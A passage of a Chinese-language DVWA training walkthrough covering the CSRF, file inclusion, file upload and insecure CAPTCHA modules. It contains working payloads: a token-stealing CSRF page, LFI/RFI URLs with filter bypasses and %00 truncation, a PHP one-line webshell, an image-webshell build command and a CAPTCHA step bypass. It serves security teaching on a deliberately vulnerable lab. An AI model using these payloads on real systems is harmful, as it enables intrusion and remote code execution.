		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，High 级别的代码加入了 Anti-CSRF token 机制，用户每次访问改密页面时，服务器会返回一个随机的 token，向服务器发起请求时，需要提交 token 参数，而服务器在收到请求时，会优先检查 token，只有 token 正确，才会处理客户端的请求。

**漏洞利用**

要绕过 High 级别的反 CSRF 机制，关键是要获取 token，要利用受害者的 cookie 去修改密码的页面获取关键的 token。

试着去构造一个攻击页面，将其放置在攻击者的服务器，引诱受害者访问，从而完成 CSRF 攻击，下面是代码。

```html
<script type="text/javascript">
	function attack()
	{
	document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
	document.getElementById("transfer").submit();
	}
</script>

<iframe src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>

<body onload="attack()">
<form method="GET" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/csrf">
	<input type="hidden" name="password_new" value="password">
	<input type="hidden" name="password_conf" value="password">
	<input type="hidden" name="user_token" value="">
	<input type="hidden" name="Change" value="Change">
</form>

</body>
```

攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的 token，并向服务器发送改密请求，以完成 CSRF 攻击。

然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架 iframe 访问的地址是 http://<dvwa靶机IP>/dvwa/vulnerabilities/csrf ，位于服务器 A 上，而我们的攻击页面位于黑客服务器 B 上，两者的域名不同，域名 B 下的所有页面都不允许主动获取域名 A 下的页面内容，除非域名 A 下的页面主动发送信息给域名 B 的页面，所以我们的攻击脚本是不可能取到改密界面中的 user_token。

由于跨域是不能实现的，所以我们要将攻击代码注入到 dvwa 靶机中，才有可能完成攻击。下面利用 High 级别的 XSS 漏洞协助获取 Anti-CSRF token（因为这里的 XSS 注入有长度限制，不能够注入完整的攻击脚本，所以只获取 Anti-CSRF token）。


略


### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$pass_curr = $_GET[ 'password_current' ];
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Sanitise current password input
	$pass_curr = stripslashes( $pass_curr );
	$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass_curr = md5( $pass_curr );

	// Check that the current password is correct
	$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
	$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
	$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
	$data->execute();

	// Do both new passwords match and does the current password match the user?
	if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
		// It does!
		$pass_new = stripslashes( $pass_new );
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update database with new password
		$data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
		$data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
		$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
		$data->execute();

		// Feedback for the user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match or current password incorrect.</pre>";
	}
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
可以看到，Impossible 级别的代码利用 PDO 技术防御 SQL 注入，至于防护 CSRF，则要求用户输入原始密码（简单粗暴），攻击者在不知道原始密码的情况下，无论如何都无法进行 CSRF 攻击。

---

## File Inclusion
File Inclusion，意思是文件包含（漏洞），是指当服务器开启 allow_url_include 选项时，就可以通过 php 的某些特性函数（include()，require() 和 include_once()，require_once()）利用 url 去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了 php 置中的 allow_url_fopen 选项（选项开启之后，服务器允许包含一个远程的文件）。

phpstudy开一下这2个参数


### Low
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

可以看到，服务器端对 page 参数没有做任何的过滤跟检查。

服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是 php，都会尝试当做 php 文件执行，如果文件内容确为 php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

点击 file1.php 后，显示如下



而现实中，恶意的攻击者是不会乖乖点击这些链接的，因此 page 参数是不可控的。

**本地文件包含**

构造 url`http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=/etc/shadow`
报错，显示没有这个文件，说明不是服务器系统不是 Linux,但同时暴露了服务器文件的绝对路径


- **构造url（绝对路径）**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    

    成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url（相对路径）**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ../ 是为了保证到达服务器的C盘根目录，可以看到读取是成功的。

    

    同时我们看到，配置文件中的 Magic_quote_gpc 选项为 off。在 php 版本小于 5.3.4 的服务器中，当 Magic_quote_gpc 选项为 off 时，我们可以在文件名中使用 %00 进行截断，也就是说文件名中 %00 后的内容不会被识别，即下面两个 url 是完全等效的。

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini

    2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini%0012.php

    使用 %00 截断可以绕过某些过滤规则，例如要求 page 参数的后缀必须为 php，这时链接 A 会读取失败，而链接 B 可以绕过规则成功读取。

**远程文件包含**

当服务器的 php 配置中，选项 allow_url_fopen 与 allow_url_include 为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。

在远程服务器 B 上传一个 phpinfo.txt 文件，内容如下
```php
<?php

phpinfo();

?>
```

构造url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=http://<服务器B IP地址!!!>/phpinfo.txt`

成功在服务器上执行了 phpinfo 函数


为了增加隐蔽性，可以对 http://<服务器B IP地址!!!>/phpinfo.txt 进行 URL 编码

例如

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=http://192.168.72.138/phpinfo.txt`

可以编码为

`http://192.168.72.128/dvwa/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%38%2f%70%68%70%69%6e%66%6f%2e%74%78%74` 同样可以执行成功

### Medium
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

可以看到，Medium 级别的代码增加了 str_replace 函数，对 page 参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。

**漏洞利用**

使用 str_replace 函数是极其不安全的，因为可以使用双写绕过替换规则。

例如 `page=hthttp://tp://<IP地址!!!>/phpinfo.txt` 时，str_replace 函数会将 http:// 删除，于是 `page=http://<IP地址!!!>/phpinfo.txt`，成功执行远程命令。

同时，因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

**本地文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/DVWA/php.ini` 读取配置文件成功


**远程文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hhttp://ttp://<服务器B IP地址!!!>/phpinfo.txt` 远程执行命令成功


经过编码后的 url 不能绕过替换规则，因为解码是在浏览器端完成的，发送过去的 page 参数依然是http://<IP地址!!!>/phpinfo.txt，因此读取失败。

### High
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```
可以看到，High 级别的代码使用了 fnmatch 函数检查 page 参数，要求 page 参数的开头必须是 file，服务器才会去包含相应的文件。

**漏洞利用**
High 级别的代码规定只能包含 file 开头的文件，看似安全，不幸的是我们依然可以利用 file 协议绕过防护策略。file 协议其实我们并不陌生，当我们用浏览器打开一个本地文件时，用的就是 file 协议。

构造 url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file://C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`


至于执行任意命令，需要配合文件上传漏洞利用。首先需要上传一个内容为 php 的文件，然后再利用 file 协议去包含上传文件（需要知道上传文件的绝对路径），从而实现任意命令执行。

### Impossible
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```

可以看到，Impossible 级别的代码使用了白名单机制进行防护，简单粗暴，page 参数必须为“include.php”、“file1.php”、“file2.php”、“file3.php”之一，彻底杜绝了文件包含漏洞。

---

## File Upload
File Upload，即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的 webshell 权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx 等都曝出过文件上传漏洞。

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// Can we move the file to the upload folder?
	if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
		// No
		$html .= '<pre>Your image was not uploaded.</pre>';
	}
	else {
		// Yes!
		$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
	}
}

?>
```

- **basename(path,suffix)**

    函数返回路径中的文件名部分，如果可选参数 suffix 为空，则返回的文件名包含后缀名，反之不包含后缀名。

可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

**漏洞利用**

文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。不幸的是，这里三个条件全都满足。

上传文件 shell.php（一句话木马）
```php
<?php @eval($_POST['ant']); ?>
```

上传成功，并且返回了上传路径



注:这里推荐用开源的 [antSword](https://github.com/AntSwordProject/antSword) 连接webshell，安装步骤这里略

`http://<IP地址!!!>/dvwa/hackable/uploads/shell.php`



然后 antSword 就会通过向服务器发送包含 ant 参数的 post 请求，在服务器上执行任意命令，获取 webshell 权限。可以下载、修改服务器的所有文件。



### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

	// Is it an image?
	if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
		( $uploaded_size < 100000 ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

可以看到，Medium 级别的代码对上传文件的类型、大小做了限制，要求文件类型必须是 jpeg 或者 png，大小不能超过 100000B（约为 97.6KB）。

**组合拳（文件包含+文件上传）**

因为采用的是一句话木马，所以文件大小不会有问题，至于文件类型的检查，尝试修改文件名为 shell.png , 上传成功



尝试使用 antSword 连接,不幸的是，虽然成功上传了文件，但是并不能成功获取 webshell 权限，在 antSword 上会报错

这是因为 antSword 的原理是向上传文件发送包含 ant 参数的 post 请求，通过控制 ant 参数来执行不同的命令，而这里服务器将木马文件解析成了图片文件，因此向其发送 post 请求时，服务器只会返回这个“图片”文件，并不会执行相应命令。

这里可以借助 Medium 级别的文件包含漏洞来获取 webshell 权限
`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hthttp://tp://<IP地址!!!>/dvwa/hackable/uploads/shell.png`

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/dvwa/hackable/uploads/shell.php`

注: 这里的 post 需要一个带 Medium 级别的 cookie 请求，antSword 现在貌似不支持带 cookie 访问，我是自己配置 burp 代理，用 burp 抓包加上 cookie 进行访问的




**抓包修改文件类型**
上传 shell.png 文件，抓包。


可以看到文件类型为 image/png，尝试修改 filename 为 shell.php。


上传成功。上 antSword 连接

**截断绕过规则**

在 php 版本小于 5.3.4 的服务器中，当 Magic_quote_gpc 选项为 off 时，可以在文件名中使用 %00 截断，所以可以把上传文件命名为 shell.php%00.png。


可以看到，包中的文件类型为 image/png，可以通过文件类型检查。上传成功。


而服务器会认为其文件名为 shell.php，顺势解析为 php 文件。

### High
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
	$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

	// Is it an image?
	if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
		( $uploaded_size < 100000 ) &&
		getimagesize( $uploaded_tmp ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```
- **strrpos(string,find,start)**

    函数返回字符串 find 在另一字符串 string 中最后一次出现的位置，如果没有找到字符串则返回 false，可选参数 start 规定在何处开始搜索。

- **getimagesize(string filename)**

    函数会通过读取文件头，返回图片的长、宽等信息，如果没有相关的图片文件头，函数会报错。

可以看到，High 级别的代码读取文件名中最后一个”.”后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是 ”*.jpg”、”*.jpeg” 、”*.png” 之一。同时，getimagesize 函数更是限制了上传文件的文件头必须为图像类型。

漏洞利用
采用 %00 截断的方法可以轻松绕过文件名的检查，但是需要将上传文件的文件头伪装成图片，这里只演示如何借助 High 级别的文件包含漏洞来完成攻击。

首先利用 copy 将一句话木马文件 php.php 与图片文件 1.jpg 合并

`copy 1.jpg/b+php.php/a shell.jpg`


打开可以看到，一句话木马藏到了最后。顺利通过文件头检查，可以成功上传。



注：我在 win10 裸机上进行的 phpstury 环境搭建，在这一步上传过程中，一直失败，后来发现是 windows defender 把上传上来的图片马杀掉了，所以出现同类问题可以检查下杀软情况


antSword 连接：

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file:///C:/phpStudy/PHPTutorial/WWW/dvwa/hackable/uploads/shell.jpg`

这里和上面一样，自己抓包加上 cookie



### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
	$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
	$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

	// Where are we going to be writing to?
	$target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
	//$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
	$target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
	$temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
	$temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

	// Is it an image?
	if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
		( $uploaded_size < 100000 ) &&
		( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
		getimagesize( $uploaded_tmp ) ) {

		// Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
		if( $uploaded_type == 'image/jpeg' ) {
			$img = imagecreatefromjpeg( $uploaded_tmp );
			imagejpeg( $img, $temp_file, 100);
		}
		else {
			$img = imagecreatefrompng( $uploaded_tmp );
			imagepng( $img, $temp_file, 9);
		}
		imagedestroy( $img );

		// Can we move the file to the web root from the temp folder?
		if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
			// Yes!
			$html .= "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
		}
		else {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}

		// Delete any temp files
		if( file_exists( $temp_file ) )
			unlink( $temp_file );
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

- **in_get(varname)**

    函数返回相应选项的值

- **imagecreatefromjpeg ( filename )**

    函数返回图片文件的图像标识，失败返回false

- **imagejpeg ( image , filename , quality)**

    从image图像以filename为文件名创建一个JPEG图像，可选参数quality，范围从 0（最差质量，文件更小）到 100（最佳质量，文件最大）。

- **imagedestroy( img )**

    函数销毁图像资源

可以看到，Impossible 级别的代码对上传文件进行了重命名（为 md5 值，导致 %00 截断无法绕过过滤规则），加入 Anti-CSRF token 防护 CSRF 攻击，同时对文件的内容作了严格的检查，导致攻击者无法上传含有恶意脚本的文件。

---

## Insecure CAPTCHA
Insecure CAPTCHA，意思是不安全的验证码，CAPTCHA 是 Completely Automated Public Turing Test to Tell Computers and Humans Apart (全自动区分计算机和人类的图灵测试)的简称。但个人觉得，这一模块的内容叫做不安全的验证流程更妥当些，因为这块主要是验证流程出现了逻辑漏洞，谷歌的验证码表示不背这个锅。

这一步服务器可以不需要翻墙，主要在于绕过验证码
去 https://www.google.com/recaptcha/admin/create 申请下 key，信息随便填

在`dvwa\config\config.inc.php`中加入如下API key
```
$_DVWA[ 'recaptcha_public_key' ]  = '你的公钥';
$_DVWA[ 'recaptcha_private_key' ] = '你的私钥';
```

**reCAPTCHA 验证流程**

这一模块的验证码使用的是 Google 提供 reCAPTCHA 服务，下图是验证的具体流程。



服务器通过调用 recaptcha_check_answer 函数检查用户输入的正确性。

recaptcha_check_answer($privkey,$remoteip, $challenge,$response)

数 $privkey 是服务器申请的 private key ，$remoteip 是用户的 ip，$challenge 是recaptcha_challenge_field 字段的值，来自前端页面 ，$response是 recaptcha_response_field 字段的值。函数返回 ReCaptchaResponse class 的实例，ReCaptchaResponse 类有2个属性 ：
1. $is_valid 是布尔型的，表示校验是否有效，
2. $error 是返回的错误代码。

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key'],
		$_POST['g-recaptcha-response']
	);

	// Did the CAPTCHA fail?
	if( !$resp ) {
		// What happens when the CAPTCHA was entered incorrectly
		$html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
		$hide_form = false;
		return;
	}
	else {
		// CAPTCHA was correct. Do both new passwords match?
		if( $pass_new == $pass_conf ) {
			// Show next stage for the user
			$html .= "
				<pre><br />You passed the CAPTCHA! Click the button to confirm your changes.<br /></pre>
				<form action=\"#\" method=\"POST\">
					<input type=\"hidden\" name=\"step\" value=\"2\" />
					<input type=\"hidden\" name=\"password_new\" value=\"{$pass_new}\" />
					<input type=\"hidden\" name=\"password_conf\" value=\"{$pass_conf}\" />
					<input type=\"submit\" name=\"Change\" value=\"Change\" />
				</form>";
		}
		else {
			// Both new passwords do not match.
			$html     .= "<pre>Both passwords must match.</pre>";
			$hide_form = false;
		}
	}
}

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check to see if both password match
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update database
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the end user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with the passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
		$hide_form = false;
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

可以看到，服务器将改密操作分成了两步，第一步检查用户输入的验证码，验证通过后，服务器返回表单，第二步客户端提交 post 请求，服务器完成更改密码的操作。但是，这其中存在明显的逻辑漏洞，服务器仅仅通过检查 Change、step 参数来判断用户是否已经输入了正确的验证码。


**通过构造参数绕过验证过程的第一步**

首先输入密码，点击 Change 按钮，抓包，更改 step 参数绕过验证码：


ps:因为没有翻墙，所以没能成功显示验证码，发送的请求包中也就没有 recaptcha_challenge_field、recaptcha_response_field 两个参数

**CSRF**

